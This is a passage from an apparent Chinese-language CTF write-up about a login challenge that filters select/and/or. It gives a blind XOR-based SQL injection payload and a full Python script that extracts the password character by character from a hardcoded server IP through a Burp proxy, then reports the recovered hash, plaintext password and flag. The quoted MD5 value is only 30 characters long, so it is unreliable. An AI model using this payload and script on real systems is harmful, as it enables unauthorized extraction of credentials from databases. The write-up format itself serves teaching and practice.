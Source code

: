 通过手工测试发现，select、and、or之类的被过滤，于是尝试直接注入获得password字段Payload为`admin'^(1<ord(substr(password,1,1)))='0`

然后根据这个写个脚本自动注入，这里是将请求发送到burpsuite，burpsuite会自动加密，然后再发送到服务端。Python代码为


```python
# -*- coding: utf-8 -*-

import requests

headers = {'User-Agent': 'Mozilla/5.0 (Linux; Android 4.4.2; SM-G955N Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36 MMWEBID/4009 MicroMessenger/7.0.3.1400(0x2700033B) Process/tools NetType/WIFI Language/zh_CN'
           }

URL = "http://129.204.73.141:2000/login.php"
def sendsort(payload):
    while 1:
        try:
            params = {"username": payload,"password":"aaa", "code": "130a0f7568d93a7b1b7f304466a0c0e8a6abd167d45eab324fd042129ba499cf3347c69ac91da53a0205763930e10dd357835715d29bdfbe5c9ad01724244485f73dc935d5136ddd72ee9766f4351b367af89fccad72a456ced52553aedbaf56c2b7deee0506e96ed5e7f70ebdb2b69cacbb7725b2760fbee764d1c942bd3624"}
            req = requests.post(URL,data=params,headers=headers,proxies={"http":"127.0.0.1:8080"})
        except:
           print('error')
        else:
           break

    if "password"   in req.text:
        return 1
    else:
        return 0

TEMPLATE = "admin'^(%s<ord(substr(password,%s,1)))='0"

data=''
for i in range(1,60):
    min_value= 31
    max_value= 128
    while abs(max_value-min_value)>1:
        mid_value = int((max_value+min_value)/2)
        if sendsort(TEMPLATE%(str(mid_value),str(i))) == 1:
            min_value= mid_value
        else:
            max_value= mid_value
    data+=(chr(max_value))
    print(data)
```

获得 password 的 md5 值为 6f1568e3698c06b9eb17b0e8e77444，
对应的明文为 admin123password321
登录之后获得 flag
